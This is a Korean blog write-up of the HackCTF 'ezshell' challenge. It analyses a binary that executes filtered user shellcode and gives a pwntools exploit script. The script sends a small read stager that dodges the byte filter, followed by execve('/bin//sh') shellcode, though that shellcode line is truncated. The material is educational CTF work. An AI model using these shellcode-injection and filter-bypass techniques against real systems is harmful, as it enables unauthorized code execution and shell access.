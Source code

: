 ```yaml
---
layout: post
title:  "HacCTF ezshell write-up"
date:   2020-03-22 19:45:55
image:  hackctf_ezshell.PNG
tags:   [HackCTF]
categories: [Write-up]
---
```


### 1.  문제

---

**1) mitigation 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20ezshell/Untitled.png)

Full RELRO와 카나리가 걸려있다. 또한 PIE도 걸려있는데 현재 RWX가 있는걸로 봐서 쉘코드 관련한 문제로 보인다.

<br>

**2) 문제 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20ezshell/Untitled%201.png)

바이너리를 실행시키면 처음에 입력을 받고 어떠한 값이 출력된다. 

<br>

**3) 코드흐름 파악**
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
    
void Init(void)
{
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);
}

int main(void)
{
    Init();

    char result[100] = "\x0F\x05\x48\x31\xED\x48\x31\xE4\x48\x31\xC0\x48\x31\xDB\x48\x31\xC9\x48\x31\xD2\x48\x31\xF6\x48\x31\xFF\x4D\x31\xC0\x4D\x31\xC9\x4D\x31\xD2\x4D\x31\xDB\x4D\x31\xE4\x4D\x31\xED\x4D\x31\xF6\x4D\x31\xFF";
    char shellcode[30];
    char filter[4] = {'\xb0', '\x3b', '\x0f', '\x05'};

    read(0, shellcode, 30);
    

    for (int i = 0; i <= 3; i ++)
    {
        if (strchr(shellcode, filter[i]))
        {
            puts("filtering :)");
            exit(1);
        }		
    }

    for (int i = 0; i < 30; i++)
    {
        if (!shellcode[i])
        {
            puts("null :)");
            exit(1);
        }
    }

    strcat(result, shellcode);
    (*(void (*)()) result + 2)();
}
```

<br>
이번 문제는 아예 코드를 줘버렸다. 코드의 흐름은 다음과 같다.



1. result배열에 어떠한 값이 들어가 있다. 해당 값을 디스어셈블시키면 다음과 같다.

    ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20ezshell/Untitled%202.png)

    처음에 syscall이 보이고 그 뒤에는 모든 레지스터들을 다 xor 연산하여 0으로 초기화 시킨다

2. shellcode 배열에 입력을 받는다
3. -
4. 입력한 shellcode안에 filter 배열에 들어있는 값이 존재하는지 확인하고 존재하면 filtering: 문자열이 출력되면서 종료된다.

    여기서 필터의 개수는 총 4개로서 \x0f\x05는 syscall을 뜻하고, \3b는 59로서 execve syscall을 할때 필요한 rax값이다. /xb0은 잘모르겠다

5. 그다음 또 반복문을 돌면서 입력한 shellcode 배열에 널값이 존재하는지 확인하고 있으면 종료된다.
6. 만약 shellcode 배열이 필터에 걸리지 않고 널바이트가 없다면, result+2 즉 syscall 그다음을 호출한다.


<br><br><br>


### 2. 접근방법

---

쉘코드를 작성해야한다. 길이제한은 30바이트로 저번 Unexploitable#4 문제에서 간단한 쉘코드를 만들었기 때문에 이를 참조하여 필터에 걸리지 않는 쉘코드를 짤것이다.

내가 작성한 쉘코드는 다음과 같다.

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20ezshell/Untitled%203.png)

pwntools 의 asm기능을 이용하여 간단하게 구현하였다.

<br><br>

**시나리오**

1. syscall로 read함수를 호출하여 일반 인터넷에 있는 23바이트? 짜리 쉘코드를 삽입한다
2. jmp 로 쉘코드를 실행한다!

- **mov rsp, QWORD PTR fs:[rbx];**

    result 배열에 들어있는 쉘코드 때문에 rsp가 0이다. 따라서 위 코드를 진행해야 push나 pop 같은 명령어를 사용가능하다.

- **lea rsi, [rip-1];**

    현재 rip의 주소를 rsi에 복사를 한다. 단, 그냥 rip 이렇게 하면 널값이 들어가므로 -1 연산을 통해 널값을 없앤다. 즉 rsi에 실제 쉘코드가 들어갈 주소가 들어간다.

- **mov dx, 0xffff;**

    read함수의 입력 사이즈를 위해 삽입하였다.

- **jmp 0xffffffffffffffbb+5**

    현재 syscall 위치로 가야한다. 따라서 상대주소를 줘야하므로, 

    => "목적지 주소(syscall 위치) - 현 rip주소 - 5" 를 계산하여서 입력을 주면된다.

    근데 그냥 이렇게 jmp ~ 입력하면 에러가 난다. 따라서 위 사진처럼 입력해줘야한다.

    (vma는 base주소라고 생각하면 됨.)

    [jmp, call instruction 주소 계산](http://umbum.tistory.com/102)

<br>

사실 이렇게 syscall 위치의 상대주소를 구해도 실제 디버깅 해보면 틀리게 나온다. 따라서 직접 디버깅하면서 확인한 경과 위 공식?에서 +5를 해야지 실제 syscall 주소가 들어간다.


<br><br><br>


### 3. 풀이

---

최종 익스코드는 다음과 같다
```python
from pwn import *
context.arch="amd64"
context.log_level="DEBUG"
p=remote("ctf.j0n9hyun.xyz",3036)
#p=process("./ezshell")
#gdb.attach(p,'code\nb *0xb92+$code\n')

shell="mov rsp,QWORD PTR fs:[rbx];"
shell+="lea rsi,[rip-1];"
shell+="mov dx,0xffff;"
shell=asm(shell)
shell+=asm('jmp '+hex(0xFFFFFFFFFFFFFFBB+5), vma=0x1, arch='amd64',os='linux')
shell=shell.ljust(30,'\xcc')
log.info(len(shell))
log.info(shell)
p.send(shell)
shell2 = "\x90"*0x100
shell2 +="\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x$
pause()
p.sendline(shell2)
p.interactive()
```

<br><br><br>


### 4. 몰랐던 개념

---

- 쉘코드 관련 문제는 처음 풀어봤다. pzshell을 통해 복습겸 다시 익혀야겠다.
- 추가적으로 위 익스코드에서 처음에 sendline으로 보내면 다음 read가 개행떄문에 씹힌다. 따라서 send로 보내야한다